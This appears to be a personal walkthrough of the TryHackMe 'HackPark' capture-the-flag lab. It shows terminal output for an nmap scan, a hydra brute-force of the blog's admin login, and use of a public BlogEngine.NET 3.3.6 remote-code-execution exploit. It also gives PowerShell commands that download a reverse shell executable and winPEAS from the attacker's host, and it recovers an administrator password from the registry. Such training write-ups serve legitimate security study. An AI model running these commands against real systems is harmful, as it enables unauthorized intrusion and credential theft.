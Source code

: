 kali@kali:~/oscptraining/tryhackme/hackpack$ nmap -sV -sC -o nmap 10.10.4.115
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 10:27 EDT
Nmap scan report for 10.10.4.115
Host is up (0.25s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-03T14:23:40
|_Not valid after:  2021-11-02T14:23:40
|_ssl-date: 2021-05-04T14:28:20+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.04 seconds

port 80 and 3389 are open

 Windows website login form using POST method
<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">

the steps for to get the hydra command at the back is as follows
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

kali@kali:~/oscptraining/tryhackme/hackpack$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.115 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=grAt5ynSnVWRiGrtMIbnltxKq5lVYTU1mg05sjpBmyX97TJvxlMSbHFs8T%2FWMUhUug08dks8%2FQsmmBkhSMnoQUK95nyNN3NqFOJXm2L3PJWWZjMc4OwqLk8neyTQdVwcYZ34RXJwEDH9pc6FjyC4fkubmatuu5mLd0j7PLEF%2BwHTjChs&__EVENTVALIDATION=sOJdUWaZw6uOtm1onUPcsuxD1qsmegV89dt9hXwCxr7tkQqOODLMLBuOGwZH%2F7a5p5a2ifEAAj%2FTGtyOOlCZkWFqLKglFZPNe3M%2BRmbK%2FpOdwfZm0kJth0BHkioI68IKXV2dzSlVUAXZ7SGdIAWewsRNKjCJcb%2Bpl4C5GxT8fC%2FasZAR&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"


[STATUS] 576.00 tries/min, 576 tries in 00:01h, 14343823 to do in 415:03h, 16 active
[80][http-post-form] host: 10.10.246.210   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 11:22:32  


once im inside the admin page, we can see that it is running on BlogEngine.NET 3.3.6
a quick search on exploitdb would lead us to the following public exploit that we can use
kali@kali:~/oscptraining/tryhackme/hackpack$ searchsploit -p aspx/webapps/46353.cs
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators

kali@kali:~/oscptraining/tryhackme/hackpack$ cp /usr/share/exploitdb/exploits/aspx/webapps/46353.cs .

Path traversal vulnerability 

follow the instructions and we are in!

lets enumerate the machine...


c:\windows\system32\inetsrv>whoami
iis apppool\blog
systeminfo
c:\windows\system32\inetsrv>systeminfo
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600


trying upgrade our reverse shell to a full reverseshell
powershell Invoke-WebRequest -Uri http://10.4.24.92:8000/reverse.exe -Outfile reverse.exe

get winpeas in 

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'


We are able to see windowsscheduler running so lets go

C:\Windows>cd C:\Program Files (x86)\SystemScheduler                                                                  
dir                                                                                                                   
C:\Program Files (x86)\SystemScheduler>dir                                                                            
 Volume in drive C has no label.                                                                                      
 Volume Serial Number is 0E97-C552                                                                                    
 Directory of C:\Program Files (x86)\SystemScheduler                                                                  
08/04/2019  04:37 AM    <DIR>          .                                                                              
08/04/2019  04:37 AM    <DIR>          ..                                                                             
05/17/2007  01:47 PM             1,150 alarmclock.ico                                                                 
08/31/2003  12:06 PM               766 clock.ico                                                                      
08/31/2003  12:06 PM            80,856 ding.wav                                                                       
05/04/2021  08:51 AM    <DIR>          Events                                                                         
08/04/2019  04:36 AM                60 Forum.url                                                                      
01/08/2009  08:21 PM         1,637,972 libeay32.dll                                                                   
11/16/2004  12:16 AM             9,813 License.txt                                                                    
05/04/2021  07:23 AM             1,496 LogFile.txt                                                                    
05/04/2021  07:24 AM             3,760 LogfileAdvanced.txt                                                            
03/25/2018  10:58 AM           536,992 Message.exe                                                                    
03/25/2018  10:59 AM           445,344 PlaySound.exe                                                                  
03/25/2018  10:58 AM            27,040 PlayWAV.exe                                                                    
08/04/2019  03:05 PM               149 Preferences.ini                                                                
03/25/2018  10:58 AM           485,792 Privilege.exe                                                                  
03/24/2018  12:09 PM            10,100 ReadMe.txt                                                                     
03/25/2018  10:58 AM           112,544 RunNow.exe                                                                     
03/25/2018  10:59 AM            40,352 sc32.exe                                                                       
08/31/2003  12:06 PM               766 schedule.ico                                                                   
03/25/2018  10:58 AM         1,633,696 Scheduler.exe                                                                  
03/25/2018  10:59 AM           491,936 SendKeysHelper.exe                                                             
03/25/2018  10:58 AM           437,664 ShowXY.exe                                                                     
03/25/2018  10:58 AM           439,712 ShutdownGUI.exe                                                                
03/25/2018  10:58 AM           235,936 SSAdmin.exe                                                                    
03/25/2018  10:58 AM           731,552 SSCmd.exe                                                                      
01/08/2009  08:12 PM           355,446 ssleay32.dll                                                                   
03/25/2018  10:58 AM           456,608 SSMail.exe                                                                     
08/04/2019  04:36 AM             6,999 unins000.dat                                                                   
08/04/2019  04:36 AM           722,597 unins000.exe                                                                   
08/04/2019  04:36 AM                54 Website.url                                                                    
06/26/2009  05:27 PM             6,574 whiteclock.ico                                                                 
03/25/2018  10:58 AM            76,704 WhoAmI.exe                                                                     
05/16/2006  04:49 PM           785,042 WSCHEDULER.CHM                                                                 
05/16/2006  03:58 PM             2,026 WScheduler.cnt                                                                 
03/25/2018  10:58 AM           331,168 WScheduler.exe                                                                 
05/16/2006  04:58 PM           703,081 WSCHEDULER.HLP                                                                 
03/25/2018  10:58 AM           136,096 WSCtrl.exe                                                                     
03/25/2018  10:58 AM            98,720 WService.exe                                                                   
03/25/2018  10:58 AM            68,512 WSLogon.exe                                                                    
03/25/2018  10:59 AM            33,184 WSProc.dll                                                                     
              38 File(s)     11,148,259 bytes                                                                         
               3 Dir(s)  39,120,097,280 bytes free    



C:\Program Files (x86)\SystemScheduler>cd Events                                                                      
dir                                                                                                                   
C:\Program Files (x86)\SystemScheduler\Events>dir                                                                     
 Volume in drive C has no label.                                                                                      
 Volume Serial Number is 0E97-C552                                                                                    
 Directory of C:\Program Files (x86)\SystemScheduler\Events                                                           
05/04/2021  08:54 AM    <DIR>          .                                                                              
05/04/2021  08:54 AM    <DIR>          ..                                                                             
05/04/2021  08:55 AM             1,926 20198415519.INI                                                                
05/04/2021  08:55 AM            29,877 20198415519.INI_LOG.txt                                                        
10/02/2020  02:50 PM               290 2020102145012.INI                                                              
05/04/2021  08:46 AM               186 Administrator.flg                                                              
05/04/2021  07:24 AM                 0 Scheduler.flg                                                                  
05/04/2021  08:46 AM                 0 service.flg                                                                    
05/04/2021  08:46 AM               449 SessionInfo.flg                                                                
05/04/2021  08:46 AM               182 SYSTEM_svc.flg                                                                 
               8 File(s)         32,910 bytes                                                                         
               2 Dir(s)  39,120,093,184 bytes free                                                                    
type Administrator.flg                                                                                                
C:\Program Files (x86)\SystemScheduler\Events>type Administrator.flg                                                  
[LatestSessionInfo]                                                                                                   
SessionID=1                                                                                                           
[Administrator1]                                                                                                      
Time=04/05/21 08:46:31                                                                                                
RemoteSession=0                                                                                                       
DesktopName=Default                                                                                                   
StationName=WinSta0                                                                                                   
SessionID=1                                                                                                           
ProcessID=1664                                                                                                        
UserID=Administrator   





Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon                                             
    LastUsedUsername    REG_SZ    administrator                                                                       
    DefaultUserName    REG_SZ    administrator                                                                        
    DefaultPassword    REG_SZ    4q6XvFES7Fdxs    

saw some password lurking
kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115

7e13d97f05f7ceb9881a3eb3d78d3e72


supposed to exploit message.exe that is running every 60s

